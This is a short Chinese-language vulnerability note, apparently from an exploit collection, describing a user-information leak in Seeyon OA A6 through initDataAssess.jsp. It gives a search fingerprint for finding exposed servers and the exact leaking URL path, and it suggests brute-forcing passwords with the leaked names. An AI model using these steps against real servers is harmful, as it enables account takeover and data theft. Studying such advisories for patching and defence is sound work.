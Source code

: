 # 致远OA A6 initDataAssess.jsp 用户敏感信息泄露

## 洞描述

致远OA A6 initDataAssess.jsp 存在用户敏感信息泄露

可以通过得到的用户名爆破用户密码进入后台进一步攻击

## 漏洞影响

```
致远OA A6
```

## 网络测绘

```
title="致远A8+协同管理软件.A6"
```

## 漏洞复现

访问下列URL泄露用户信息

```
http://xxx.xxx.xxx.xxx/yyoa/assess/js/initDataAssess.jsp
```
